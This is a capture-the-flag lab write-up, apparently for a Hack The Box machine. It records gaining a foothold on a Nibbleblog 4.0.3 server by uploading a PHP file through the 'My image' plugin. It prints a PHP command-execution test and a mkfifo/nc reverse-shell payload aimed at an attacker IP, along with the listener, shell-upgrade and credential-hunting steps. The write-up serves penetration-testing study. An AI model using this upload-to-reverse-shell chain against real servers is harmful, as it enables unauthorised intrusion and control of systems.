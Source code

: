 # Nibbles — Initial Foothold

**Goal:** Turn admin portal access into code execution and a reverse shell on the webserver.

---

## Quick summary
- Logged into the Nibbleblog admin portal and enumerated pages (Publish, Comments, Manage, Settings, Themes, Plugins).
- `Plugins → My image` allowed file uploads; attempted to upload a PHP file instead of an image.
- Upload produced image-related warnings but file appeared to exist under the plugins directory.
- Located uploaded file at: `/nibbleblog/content/private/plugins/my_image/image.php`.
- Executed uploaded PHP via `curl` and confirmed remote code execution as `nibbler`.
- Replaced PHP with a reverse-shell one-liner, started an `nc` listener, and got a reverse shell.
- Upgraded the shell to a proper TTY with `python3`.
- Found `user.txt` and `personal.zip` in `/home/nibbler`.

---

## Notes / Findings

### Admin portal pages inspected
- **Publish** — create post/page/video/quote (potential entry points).
- **Comments** — no published comments.
- **Manage** — manage posts/pages/categories.
- **Settings** — shows vulnerable version `4.0.3`.
- **Themes** — installable themes.
- **Plugins** — can configure/install/uninstall; **My image** plugin allows file upload (promising).

### Upload test
Tried uploading a PHP test file:
```php
<?php system('id'); ?>
```

Upload caused PHP/Image warnings (resize class expected image resource), but upload appeared to succeed.

### Located uploaded file
Path discovered by checking directory enumeration results:
```
http://<host>/nibbleblog/content/private/plugins/my_image/
```
Files observed: `db.xml`, `image.php` (recently modified).

### Confirm remote code execution
Command:
```bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```
Output:
```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

User context: `nibbler`.

---

## Obtaining a reverse shell

### Reverse shell payload used (PHP wrapper)
Replace `<ATTACKER_IP>` and `<PORT>` accordingly.

PHP file contents used:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f"); ?>
```

Example used in lab:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

### Listener (attacker)
```bash
nc -lvnp 9443
# listening on [any] 9443 ...
```

Trigger the PHP by visiting or curling:
```
http://<host>/nibbleblog/content/private/plugins/my_image/image.php
```

Listener shows connection:
```
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

---

## Upgrading the shell to an interactive TTY
`python` (v2) missing; `python3` present.

Use:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

(Other upgrade methods exist — see reverse-shell cheat sheets / shell upgrade guides.)

---

## Post-foothold enumeration
From `/home/nibbler`:
```bash
ls
# personal.zip  user.txt
```

`user.txt` found (user flag). `personal.zip` present for further enumeration.

---

## Useful references
- Reverse shell cheat sheets: `PayloadsAllTheThings` and `HighOn.Coffee` (great consolidated reverse-shell examples / formats).

---

## Suggested next steps
- Download and inspect `personal.zip` (possible credentials, further artifacts).
- Enumerate `/home/nibbler` files and permissions.
- Perform local enumeration for SUID binaries, weak sudo rules, and scheduled tasks.
- Search for credentials/config files, SSH keys, or configuration files with secrets.
- Capture `user.txt` content and continue privilege-escalation enumeration.

---

## Commands collected (copyable)
```bash
# check uploaded php
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

# start listener (attacker)
nc -lvnp 9443

# upgrade shell to tty (on target)
python3 -c 'import pty; pty.spawn("/bin/bash")'

# list home
ls /home/nibbler
```

---

*End of notes — copy this into your GitHub journal as `Nibbles-Initial-Foothold.md`.*
